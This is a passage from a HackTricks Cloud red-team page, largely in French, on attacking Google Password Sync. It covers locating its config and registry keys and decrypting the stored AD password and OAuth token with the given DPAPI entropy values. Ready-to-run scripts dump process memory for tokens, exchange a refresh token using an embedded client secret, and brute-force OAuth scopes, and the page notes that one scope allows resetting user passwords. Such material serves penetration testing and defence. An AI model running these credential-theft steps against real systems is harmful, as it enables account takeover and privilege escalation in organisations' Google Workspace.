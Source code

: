 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Ceci est le binaire et le service que Google propose pour **maintenir synchronisés les mots de passe des utilisateurs entre l'AD** et Workspace. Chaque fois qu'un utilisateur change son mot de passe dans l'AD, il est défini sur Google.

Il est installé dans `C:\Program Files\Google\Password Sync` où vous pouvez trouver le binaire `PasswordSync.exe` pour le configurer et `password_sync_service.exe` (le service qui continuera à fonctionner).

### GPS - Configuration

Pour configurer ce binaire (et service), il est nécessaire de **lui donner accès à un principal Super Admin dans Workspace** :

* Se connecter via **OAuth** avec Google et ensuite il **stockera un jeton dans le registre (chiffré)**
* Disponible uniquement sur les contrôleurs de domaine avec GUI
* Donner des **identifiants de compte de service de GCP** (fichier json) avec des permissions pour **gérer les utilisateurs de Workspace**
* Très mauvaise idée car ces identifiants n'expirent jamais et pourraient être mal utilisés
* Très mauvaise idée de donner un accès SA sur Workspace car le SA pourrait être compromis dans GCP et il serait possible de pivoter vers Workspace
* Google l'exige pour les contrôles de domaine sans GUI
* Ces identifiants sont également stockés dans le registre

Concernant l'AD, il est possible d'indiquer d'utiliser le **contexte d'applications actuel, anonyme ou des identifiants spécifiques**. Si l'option d'identifiants est sélectionnée, le **nom d'utilisateur** est stocké dans un fichier sur le **disque** et le **mot de passe** est **chiffré** et stocké dans le **registre**.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Notez que [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) est capable de détecter **GPS**, d'obtenir des informations sur la configuration et **même de déchiffrer le mot de passe et le jeton**.
{% endhint %}

Dans le fichier **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`**, il est possible de trouver une partie de la configuration comme le **`baseDN`** de l'AD configuré et le **`nom d'utilisateur`** dont les identifiants sont utilisés.

Dans le registre **`HKLM\Software\Google\Google Apps Password Sync`**, il est possible de trouver le **jeton de rafraîchissement chiffré** et le **mot de passe chiffré** pour l'utilisateur AD (le cas échéant). De plus, si au lieu d'un jeton, des **identifiants SA** sont utilisés, il est également possible de les trouver chiffrés à cette adresse de registre. Les **valeurs** à l'intérieur de ce registre ne sont accessibles que par les **Administrateurs**.

Le **mot de passe** chiffré (le cas échéant) se trouve dans la clé **`ADPassword`** et est chiffré à l'aide de l'API **`CryptProtectData`**. Pour le déchiffrer, vous devez être le même utilisateur que celui qui a configuré la synchronisation des mots de passe et utiliser cette **entropie** lors de l'utilisation de **`CryptUnprotectData`** : `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Le jeton chiffré (le cas échéant) se trouve dans la clé **`AuthToken`** et est chiffré à l'aide de l'API **`CryptProtectData`**. Pour le déchiffrer, vous devez être le même utilisateur que celui qui a configuré la synchronisation des mots de passe et utiliser cette **entropie** lors de l'utilisation de **`CryptUnprotectData`** : `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
De plus, il est également encodé en base32hex avec le dictionnaire **`0123456789abcdefghijklmnopqrstv`**.

Les valeurs d'entropie ont été trouvées en utilisant l'outil. Il a été configuré pour surveiller les appels à **`CryptUnprotectData`** et **`CryptProtectData`** et ensuite l'outil a été utilisé pour lancer et surveiller `PasswordSync.exe` qui déchiffrera le mot de passe configuré et le jeton d'authentification au début et l'outil affichera **les valeurs pour l'entropie utilisée** dans les deux cas :

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Notez qu'il est également possible de voir les valeurs **déchiffrées** dans l'entrée ou la sortie des appels à ces API également (au cas où à un moment donné Winpeas cesserait de fonctionner).

Dans le cas où la synchronisation des mots de passe a été **configurée avec des identifiants SA**, elle sera également stockée dans des clés à l'intérieur du registre **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Tout comme avec GCPW, il est possible de dumper la mémoire du processus des processus `PasswordSync.exe` et `password_sync_service.exe` et vous pourrez trouver des jetons de rafraîchissement et d'accès (s'ils ont déjà été générés).\
Je suppose que vous pourriez également trouver les identifiants configurés de l'AD.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Génération de jetons d'accès à partir de jetons d'actualisation

En utilisant le jeton d'actualisation, il est possible de générer des jetons d'accès en utilisant celui-ci ainsi que l'ID client et le secret client spécifiés dans la commande suivante :
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Notez qu'il n'est pas possible de demander un scope pour le token d'accès même en ayant un refresh token, car vous ne pouvez demander que les **scopes pris en charge par l'application où vous générez le token d'accès**.

De plus, le refresh token n'est pas valide dans toutes les applications.
{% endhint %}

Par défaut, GPS n'aura pas accès en tant qu'utilisateur à tous les scopes OAuth possibles, donc en utilisant le script suivant, nous pouvons trouver les scopes qui peuvent être utilisés avec le `refresh_token` pour générer un `access_token` :

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Et voici le résultat que j'ai obtenu au moment de l'écriture :
```
https://www.googleapis.com/auth/admin.directory.user
```
Ce qui est le même que celui que vous obtenez si vous n'indiquez aucun champ.

{% hint style="danger" %}
Avec ce champ, vous pourriez **modifier le mot de passe d'un utilisateur existant pour élever les privilèges**.
{% endhint %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
